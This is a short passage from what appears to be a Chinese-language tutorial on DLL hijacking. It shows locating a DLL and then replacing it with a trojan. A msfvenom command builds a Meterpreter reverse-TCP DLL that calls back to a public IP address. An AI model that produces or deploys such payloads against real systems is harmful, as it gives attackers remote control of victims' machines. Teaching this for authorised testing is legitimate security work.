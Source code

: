 找到dll文件

![62-16](image62/62-16.png)

##### 生成木马dll，进行替换

```shell
msfvenom -p windows/meterpreter/reverse_tcp
lhost=101.37.169.46 lport=6677 -f dll >/opt/xiaodi.dll
```

![62-17](image62/62-17.png)
